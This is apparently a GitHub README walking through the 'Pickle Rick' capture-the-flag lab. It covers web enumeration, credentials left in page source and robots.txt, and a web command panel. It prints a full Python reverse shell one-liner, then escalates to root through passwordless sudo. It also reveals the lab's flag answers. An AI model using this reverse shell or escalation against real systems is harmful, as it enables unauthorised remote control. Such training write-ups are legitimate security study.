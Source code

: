 # Pickle-Rick
A CTF exploiting a vulnerable web server

### Enumeration

The first step I took was going to the webpage and view the page source to see if there was any useful information. Here I found a username was hidden the source code.

Website
![website](https://github.com/lindseytwilson/Pickle-Rick/blob/main/Images/Webpage.png)

The username shown was: R1ckRul3s
Username
![username](https://github.com/lindseytwilson/Pickle-Rick/blob/main/Images/Page%20Source.png)

After finding the username I ran gobuster to see if there were any additional webpages to exploit. This showed a robots.txt file that I navigated to.
![gobuster](https://github.com/lindseytwilson/Pickle-Rick/blob/main/Images/Gobuster.png)

The robots.txt page showed a password that I then used to login to the login.php page that was also found when I ran gobuster.
The password shown was: Wubbalubbadubdub
![robots](https://github.com/lindseytwilson/Pickle-Rick/blob/main/Images/Robots.png)
![login page](https://github.com/lindseytwilson/Pickle-Rick/blob/main/Images/Portal%20Login%20Page.png)

Once logged in I found a command line that I ran a ls -al in. Here I found that there was a file named Sup3rS3cretPickl3Ingred.txt. I tried to cat the file but ran into a message saying the command was disabled.
![ls -al](https://github.com/lindseytwilson/Pickle-Rick/blob/main/Images/ls%20-al.png)
![cat file](https://github.com/lindseytwilson/Pickle-Rick/blob/main/Images/Trying%20to%20cat.png)

Since there was a command line, I decided that the best approach would be to set up a netcat listener and try to get a reverse shell to exploit the webpage.

The first step was to find what python is running on the system, which was python3. Then I went to pentestmonkey.net to find a python reverse shell script. The script I found was: python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
I had to change python to by python3, change the ip address to my kali machine ip address, and lastly I changed the listening port to 9001.

![which python](https://github.com/lindseytwilson/Pickle-Rick/blob/main/Images/Which%20Python.png)

### Ingredient 1
I started a netcat listener on port 9001 and then concatenated the Sup3rS3cretPickl3Ingred.txt file. This showed that the first ingredient needed is mr. meeseek hair
![ingredient 1](https://github.com/lindseytwilson/Pickle-Rick/blob/main/Images/Ingredient%201.png)

### Ingredient 2
To find ingredient 2 I went to the root directory, ran an ls, went into the home directory, then into user rick, and ran a ls on the second ingredients file to find that the second ingredient is jerry tear.
![ingredient 2](https://github.com/lindseytwilson/Pickle-Rick/blob/main/Images/Ingredient%202.png)

### Ingredient 3
The final ingredient appears to be in the root folder, which I do not have access to. Running a sudo -l shows that all commands can be run without needing a password.
Running sudo bash -i allows me to run a super user shell to move into the root folder. Once in the root folder I was able to run a ls and cat the 3rd.txt file, showing the final ingredient is fleeb juice.
![moving to root](https://github.com/lindseytwilson/Pickle-Rick/blob/main/Images/Move%20to%20Root.png)
![ingredient 3](https://github.com/lindseytwilson/Pickle-Rick/blob/main/Images/Ingredient%203.png)
